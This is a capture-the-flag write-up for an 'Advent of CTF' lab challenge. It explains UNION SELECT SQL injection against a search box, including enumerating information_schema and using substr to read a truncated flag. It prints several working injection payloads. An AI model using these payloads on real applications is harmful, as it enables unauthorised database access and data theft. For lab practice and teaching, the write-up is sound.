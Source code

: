 #+TITLE: Advent of CTF - Challenge 6
#+SUBTITLE: "Union"

* Challenge

Yesterday was the first SQL Injection challenge, it is only logical to follow up with a more elaborate SQL Injection challenge, in this case a /UNION SELECT/ challenge.

What you will learn:

- How to identify a /UNION SELECT/
- How to learn about other tables in a schema
- How to use substring

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/stack/NOVI/AdventOfCTF/writeups/challenge-6/index_att
:END:

The challenge opens up to a search box.

#+CAPTION: The SantaBase search
[[file:index_att/search.png]]

Entering any values will result in various lists to be returned. In the below screenshot de result is shown for the search of =a=.

#+CAPTION: Search result for 'a'
[[file:index_att/search-a.png]]

The thing you will notice is that all fields are truncated. In the footer of the card it reads that due to privacy concerns the data is truncated to the first 5 characters.

Obviously the entry that has a /FLAG/ written at the start of the line looks interesting, but it is a misdirect. It is meant to get you to figure out how to read the rest of the string.


** Determine next steps

In order to determine the steps it is important to figure out what is possible with the search. One of the first things to attempt is to use a /UNION SELECT/. This will make it possible to retrieve arbitrary data from the database. Lets try the most basic /UNION SELECT/.

#+CAPTION: SQL for a UNION SELECT
#+BEGIN_SRC sql
' UNION SELECT 1,2,3 #
#+END_SRC

The result will be that a new row is added to the results with 1, 2 and 3 added in the columns. 

#+CAPTION: UNION SELECT results
[[file:index_att/union.png]]

* Solve method 1 - The long way

** Getting the database

Great, so now we can start reading data from the database. As it probably is a MySQL/MariaDB server (as the last one was it), lets try reading the information schema. To speed that up, we need to know the database we are in. Lets try the /DATABASE()/ function first.

#+CAPTION: SQL to access the database name
#+BEGIN_SRC sql
noextra' UNION SELECT 1,DATABASE(),3 #
#+END_SRC

I added =noextra= to the search to only get 1 row back.

#+CAPTION: First part of the database name
[[file:index_att/database.png]]

The problem in this challenge is that only 5 characters are shown. How do we get the rest? One way to do it is to use the =substr= function. With =substr= it is possible to get a subset of a string, for instance character 6 through 10. Using it the rest of the string can be retrieved. In the following query the first part of the /DATABASE()/ function is in column 2, the 2nd part in column 3.

#+CAPTION: SQL to retrieve the database name
#+BEGIN_SRC sql
noextra' UNION SELECT 1,DATABASE(),substr(DATABASE(),6,5) #
#+END_SRC

From the output it is clear that the name of the database is =testdb=.

#+CAPTION: Retrieving the database name
[[file:index_att/database-name.png]]

** The information schema

Using this strategy it is possible to read out the table names in the =testdb= schema. A reference of tables in the information schema can be read [[https://dev.mysql.com/doc/refman/5.7/en/information-schema.html][online]].

#+CAPTION: SQL to retrieve the table names
#+BEGIN_SRC sql
noextra' UNION SELECT 1,table_name,substr(table_name,6,5)
 FROM information_schema.tables
 WHERE table_schema='testdb' #
#+END_SRC

The result shows 2 tables in the output. A table called =flags= and one called =secrets=.

#+CAPTION: Output from the information schema
[[file:index_att/tables.png]]

Obviously the table called =flags= is the most interesting, as it will contain, well, flags hopefully. Using the previous strategy it is possible to get the column names as well.

#+CAPTION: SQL to retrieve the column names
#+BEGIN_SRC sql
noextra' UNION SELECT 1,column_name,substr(column_name,6,5)
  FROM information_schema.columns
  WHERE table_name='flags' #
#+END_SRC

The only result from this query is =description=. So in the =testdb= schema there is a table called =flags= that has a column called =description=. Using this information a flag extractor can be created.

** The flag

#+CAPTION: SQL to retrieve the flag
#+BEGIN_SRC sql
noextra' UNION SELECT 1,description,substr(description,6,5) FROM flags #
#+END_SRC

The output reveals that the flag is more then 10 characters long, so multiple iterations will be needed to get to the full flag.

#+CAPTION: Revealing the flag
[[file:index_att/flag.png]]

A follow up of this query would be to apply substring in both columns, each 5 characters further.

#+CAPTION: SQL to retrieve the next part flag
#+BEGIN_SRC sql
noextra' UNION SELECT 1,substr(description,11,5),
         substr(description,16,5) FROM flags #
#+END_SRC

With that the challenge is solved. Be sure to also check out the badge.

#+CAPTION: The badge
[[./index_att/badge.png]]

* Solve method 2 - The short way

If you were creative enough to not get trapped in /an id column can not contain text/ mindset you would've tried the following statement:

#+CAPTION: DATABASE() in column 1
#+BEGIN_SRC sql
' UNION SELECT database(),2, 3
#+END_SRC

The thing you will notice is that the 1st column can be of unlimited size. Using this approach will lead to a SQL payload that is shown in the below listing.

#+CAPTION: UNION SELECT on first column
#+BEGIN_SRC sql
' union select description,2,3 from flags #
#+END_SRC

Go back to the [[../../../index.org][homepage]].
